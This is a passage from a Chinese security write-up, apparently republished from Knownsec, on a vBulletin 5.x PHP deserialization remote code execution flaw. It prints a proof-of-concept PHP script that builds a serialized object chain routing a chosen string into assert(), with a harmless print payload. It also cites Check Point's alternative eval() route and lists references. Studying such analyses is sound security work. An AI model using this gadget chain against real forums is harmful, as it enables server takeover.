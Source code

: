 ```
<?php
class vB_Database_MySQL {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'assert';
       }
}    

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database_MySQL();
               $this->recordset = 'print("This Vuln In 5.1.7")';
       }
}    

print urlencode(serialize(new vB_dB_Result())) . "\n";

```

测试一下，成功执行`assert('print("This Vuln In 5.1.7")')`：

![](http://drops.javaweb.org/uploads/images/a1f2e19140668f78bf74639e61109d73c8764b3f.jpg)

当然了，PoC 不止上面所提供的这一种写法，仅供参考而已。

0x02 小结
=====

此次 vBulletin 5.x.x RCE 漏洞的曝光，从寻找触发点到对象的寻找，再到各种自动加载细节，不得不说是一个很好的 PHP 反序列化漏洞实战实例。不仔细去分析真的不能发现原作者清晰的思路和对程序的熟悉程度。

另外，[Check Point](http://blog.checkpoint.com/)在其官方博客上也公布了反序列化的另一个利用点，通过反序列化出一个模版对象最终调用`eval()`函数进行执行（[原文](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)）。

0x03 参考
=====

*   [http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)
*   [https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)
*   [http://php.net/manual/en/class.iterator.php](http://php.net/manual/en/class.iterator.php)
*   [http://www.php.net/manual/en/function.autoload.php](http://www.php.net/manual/en/function.autoload.php)
*   [http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)
*   [http://www.sebug.net/vuldb/ssvid-89707](http://www.sebug.net/vuldb/ssvid-89707)

原文出处：[http://blog.knownsec.com/2015/11/unserialize-exploit-with-vbulletin-5-x-x-remote-code-execution/](http://blog.knownsec.com/2015/11/unserialize-exploit-with-vbulletin-5-x-x-remote-code-execution/)